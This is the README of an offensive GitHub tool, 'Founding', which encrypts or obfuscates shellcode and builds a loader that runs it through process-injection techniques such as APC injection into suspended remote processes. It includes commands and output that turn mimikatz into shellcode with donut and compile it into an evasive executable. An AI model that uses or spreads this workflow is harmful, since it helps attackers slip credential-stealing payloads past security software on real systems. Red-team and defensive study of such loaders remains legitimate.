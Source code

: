 # Founding

![GitHub Logo](/Founding/Eren.png)

## Description
Founding is a tool that receives a Shellcode in ```.bin``` format, Obfuscates or Encrypts this shellcode and then generates a new binary utilizing some execution techniques.

### The tool has the following features for Encryption and Obfuscation:

- Supports IPv4/IPv6/MAC/UUID Obfuscation

- Supports XOR/RC4/AES encryption

- Supports payload padding

- Randomly generated encryption keys on every run

### The tool has the following features for Executing the Shellcode:
- Asynchronous Procedure Calls

- Asynchronous Procedure Calls with a Remote Debug Process

- Asynchronous Procedure Calls with a Remote Suspended Process

- Callback function EnumThreadWindows

- Local Mapping and Thread in Suspend State

## Usage
![GitHub Logo](/Founding/Usage.png)

```bash
Founding.exe <Input Payload FileName> <Enc/Obf *Option*> <Shellcode Execution type> <Optional flag>
```
### Utilize Donut to generate the Shellcode

To help generating shellcode I added to the releases [donut](https://github.com/TheWover/donut), using this project we can provide an ```.exe``` binary that we want to run and donut will generate ```.bin``` shellcode.
```bash
donut.exe --input:mimikatz.exe --output:mimi.bin
```

### Example Command
```bash
donut.exe --input:mimikatz.exe --output:mimi.bin


[ Donut shellcode generator v1 (built Mar  3 2023 13:33:22)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "mimi.bin"
  [ Exit          : Thread
```
```bash
Founding.exe mimi.bin aes APC --compile


Compilation successful.
Shinzo wo Sasageyo! Erwin.exe Created.
```


### Note
- Shellcodes that need an interactive shell like *mimikatz* can't be used with Remote Process techniques.
- To utilize the compile functionality I recommend downloading the releases because it will have all the necessary dependencies.

## Credits
- Some techniques used learnt from [Maldev Academy](https://maldevacademy.com), it is an awesome course, highly recommend
- Inspired by [HellShell](https://github.com/NUL0x4C/HellShell)



